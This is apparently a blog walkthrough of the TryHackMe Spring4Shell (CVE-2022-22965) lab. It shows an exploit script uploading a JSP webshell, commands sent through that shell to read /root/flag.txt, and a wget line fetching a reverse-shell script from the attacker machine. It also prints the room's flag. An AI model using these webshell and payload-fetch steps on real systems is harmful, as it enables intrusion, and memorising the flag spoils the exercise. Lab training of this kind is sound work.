 ```yaml
---
title: Spring4Shell CVE-2022-22965
author: CYB3RM3
name: CYB3RM3 | Spring4Shell CVE-2022-22965
date: 2022-04-09 13:38:26 +0100
categories: [TryHackMe, CVE]
tags: [CVE]
---
```


Interactive lab for exploiting Spring4Shell (CVE-2022-22965) in the Java Spring Framework

THM Room [https://tryhackme.com/room/spring4shell](https://tryhackme.com/room/spring4shell)


## TASK 1 : Info - Introduction and Deploy
### Deploy the target machine by clicking the green button at the top of this task!
No Answer

## TASK 2 : Tutorial - Vulnerability Background
### Read the task information and understand how Spring4Shell works at a high level.
No Answer

## TASK 3 : Practical - Exploitation
### Follow the steps in the task to exploit Spring4Shell and obtain a webshell.
First i copied the exploit in a folder "spring" and curl the vulnerable URL :

```console
root@ip-10-10-173-13:~/spring#cp /root/Rooms/Spring4Shell/exploit.py .
root@ip-10-10-173-13:~/spring# curl http://10.10.69.218/
<!DOCTYPE HTML>
<html>
 <head> 
 <title>Vulnerable</title>
 <meta charset="utf-8" />
 <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
 <script src="/assets/js/font-awesome.js"></script>
 <link rel="icon" type="image/png" href="/assets/favicon.png" />
 <link href="/assets/css/styles.css" rel="stylesheet" />
 </head>
 <body>
 <!-- Masthead-->
 <div class="masthead">
 <div class="masthead-content text-white">
 <div class="container-fluid px-4 px-lg-0">
 <h1 class="fst-italic lh-1 mb-4">Our Website is Coming Soon</h1>
 <p class="mb-5">We're working hard to finish the development of this site. Sign up below to receive updates and to be notified when we launch!</p>
 <form id="contactForm" action="/" method="post">
 <!-- Email address input-->
 <div class="row input-group-newsletter">
 <div class="col"><input class="form-control" required type="email" placeholder="Enter email address..." aria-label="Enter email address..." id="email" name="email" value="" /></div>
 <div class="col-auto"><button class="btn btn-primary" id="submitButton" type="submit">Notify Me!</button></div>
 </div>
 </form>
 </div>
 </div>
 </div>
 <div class="social-icons">
 <div class="d-flex flex-row flex-lg-column justify-content-center align-items-center h-100 mt-3 mt-lg-0">
 <a class="btn btn-dark m-3" target="_blank" href="https://twitter.com/MuirlandOracle"><i class="fab fa-twitter"></i></a>
 <a class="btn btn-dark m-3" target="_blank" href="https://github.com/MuirlandOracle"><i class="fab fa-github"></i></a>
 <a class="btn btn-dark m-3" target="_blank" href="https://www.linkedin.com/in/agcyber/"><i class="fab fa-linkedin"></i></a>
 </div>
 </div>
 <!-- Bootstrap core JS-->
 <script src="/assets/js/bootstrap.bundle.min.js"></script>
 </body>
</html>
```
{: .nolineno }

We can see the action on the form is "/" so the target URL will be using for the exploit is http://10.10.69.218/

```console
root@ip-10-10-173-13:~/spring# ./exploit.py http://10.10.69.218/Shell Uploaded Successfully!
Your shell can be found at: http://10.10.69.218/tomcatwar.jsp?pwd=thm&cmd=whoami
```
{: .nolineno }

Opening this URL and changing the "whoami" by "id" gives me :

![Whoami](/images/thm/spring4shell/spring4shell_1.png)
_Whoami_

No Answer.

### [Bonus Question: Optional] Use your webshell to obtain a reverse/bind shell on the target.

No Answer.

###  What is the flag in /root/flag.txt?

2 method here. First from the original exploit and print the flag :

```console
http://10.10.69.218/tomcatwar.jsp?pwd=thm&cmd=cat%20/root/flag.txt
```
{: .nolineno }

![Flag.txt](/images/thm/spring4shell/spring4shell_2.png)
_Flag.txt_

Or from the reverse shell :

I created some reverses shell on the attacker machine then run a http python server to retreive them on the target machine.

First i need to urlencode my cmd payload :

```console
http://10.10.85.199/tomcatwar.jsp?pwd=thm&cmd=wget http://10.10.173.13:8000/reverse.sh -o /tmp/reverse.sh
```
{: .nolineno }

to 

```console
http://10.10.85.199/tomcatwar.jsp?pwd=thm&cmd=wget%20http://10.10.173.13:8000/reverse.sh%20-o%20/tmp/reverse.sh
```
{: .nolineno }

Then change the file to make it executable :

```console
http://10.10.85.199/tomcatwar.jsp?pwd=thm&cmd=chmod%20777%20/tmp/reverse.sh
```
{: .nolineno }

Let's take a look a the /tmp directory :

![/tmp](/images/thm/spring4shell/spring4shell_3.png)
_/tmp_

I tried with different types of reverse shell but none of them executed well.

I got no better result using CURL.

Answer : THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm} 

## TASK 4 : Info - Conclusion 
### I understand and can abuse Spring4Shell!
No Answer.

